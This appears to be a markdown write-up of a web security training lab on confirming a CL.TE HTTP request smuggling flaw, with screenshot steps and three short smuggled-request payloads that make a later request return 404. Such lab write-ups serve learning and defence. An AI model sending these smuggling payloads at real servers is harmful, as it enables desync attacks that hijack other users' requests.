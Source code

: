 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

change post request to get request
change protocol from HTTP/2 to HTTP/1.1

![screenshot](images/images_lab4/lab4_homepage_with_post_request.jpg)

### step2

![screenshot](images/images_lab4/lab4_add_payload_for_lab1.jpg)

### step3

![screenshot](images/images_lab4/lab4_proxy_error.jpg)

### step4

![screenshot](images/images_lab4/lab4_payload_ce_te.jpg)

### step5

content-Length update must be unmarked

![screenshot](images/images_lab4/lab4_uncheck_content_length.jpg)

### step6

test payload

```
e
q=smuggling&x=
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](images/images_lab4/lab4_test_payload_to_display_post.jpg)

### step7

test payload

```
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](images/images_lab4/lab4_payloadfor_post.jpg)

### step8

final payload to solve lab

```
0

GET /404 HTTP/1.1
Foo: x
```

![screenshot](images/images_lab4/lab4_404_request_payload.jpg)

### step9

lab solved

![screenshot](images/images_lab4/lab4_lab_solved.jpg)
